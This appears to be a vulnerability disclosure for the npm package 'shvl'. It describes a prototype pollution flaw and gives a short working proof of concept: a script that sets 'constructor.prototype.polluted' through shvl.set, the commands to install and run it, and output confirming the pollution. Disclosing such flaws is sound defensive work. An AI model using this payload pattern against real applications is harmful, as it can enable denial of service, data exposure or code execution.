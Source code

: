 # Description

`shvl` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var shvl = require("shvl")
let obj = {}
console.log("Before : " + {}.polluted);
shvl.set(obj, 'constructor.prototype.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm i shvl # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
